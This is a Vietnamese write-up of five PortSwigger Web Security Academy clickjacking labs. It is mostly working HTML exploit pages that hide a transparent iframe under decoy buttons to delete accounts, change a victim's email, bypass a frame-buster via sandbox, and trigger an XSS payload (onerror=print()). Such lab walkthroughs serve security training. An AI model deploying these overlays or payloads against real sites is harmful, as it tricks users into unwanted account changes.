 # 1. Basic clickjacking with CSRF token protection
Ta vào exploit server và config đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.00001;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 144px;
  height: 34px;
  position: relative;
  top: 480px;
  left: 19px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0a2c004d03768f27c0ac86a700870048.web-security-academy.net/my-account"></iframe>
</body>
```

Đoạn XML trên sẽ tạo một `<iframe>` trỏ tới website có lỗ hổng clickjacking, làm mờ thẻ `<iframe>`, sau đó đặt 1 button đè lên button "Delete account". Khi user click vào button, request xóa user sẽ được gửi đi.

Sau khi click "Deliver to victim", kết quả thành công.

# 2. Clickjacking with form input data prefilled from a URL parameter
Để giải bài lab, ta cần đổi email của user. Nhận thấy nếu đặt query string trong email, ví dụ `/my-account?email=attacker@gmail.com` thì trong ô input của email sẽ tự động được gán giá trị "attacker@gmail.com"

Vào exploit server và cấu hình đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.00001;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 136px;
  height: 34px;
  position: relative;
  top: 433;
  left: 32px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0a00002103d37562c01a91bf00d600cb.web-security-academy.net/my-account?email=attacker@gmail.com"></iframe>
</body>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 3. Clickjacking with a frame buster script
Website có sử dụng Javascript để chặn việc website bị framed:

![image](https://user-images.githubusercontent.com/103978452/210330878-b459d61f-06fb-4b79-827b-19301fd75ede.png)

Tuy nhiên với thuộc tính `sandbox="allow-forms"`, ta có thể disable Javascript. Cấu hình đoạn HTML sau trong exploit server:

```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.00001;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 136px;
  height: 34px;
  position: relative;
  top: 433;
  left: 32px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0ab100360375e346c04af916004800ba.web-security-academy.net/my-account?email=attacker@gmail.com" sandbox="allow-forms"></iframe>
</body>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 4. Exploiting clickjacking vulnerability to trigger DOM-based XSS
Trong chức năng submit feedback, thử submit với tham số `name=<img src=1 onerror=print()>` thì thấy lệnh print() được execute. Như vậy website có lỗ hổng XSS. Khi ta thêm các tham số name, email, subject và message vào GET request thì giá trị của các ô input được điền vào. Như vậy ta có thể exploit clickjacking.

Trong exploit server, ta cấu hình đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 1000px;
  opacity: 0.00001;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 161px;
  height: 34px;
  position: relative;
  top: 777px;
  left: 18px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0ae2003d03b0871cc05cfe2200db00cb.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=test@gmail.com&subject=test&message=test"></iframe>
</body>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 5. Multistep clickjacking
Để thực hiện multistep clickjacking, ta chỉ cần tạo hai button với label là "Click me first" và "Click me next". Vào exploit server và cấu hình đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.9;
  z-index: 2;
}
#target_website2{
  display: none;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click1{
  width: 148px;
  height: 34px;
  position: relative;
  top: 479px;
  left: 18px;
  border-radius: 30px;
}
#click2{
  width: 122px;
  height: 34px;
  position: relative;
  top: 278px;
  left: 32px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click1">Click me first</button>
    <button id="click2">Click me next</button>
  </div>
  <iframe id="target_website" src="https://0ae8001c0370749ec17208d100490052.web-security-academy.net/my-account?email=attacker@gmail.com"></iframe>
</body>
```

Sau khi click "Deliver to victim", bài lab được giải thành công.
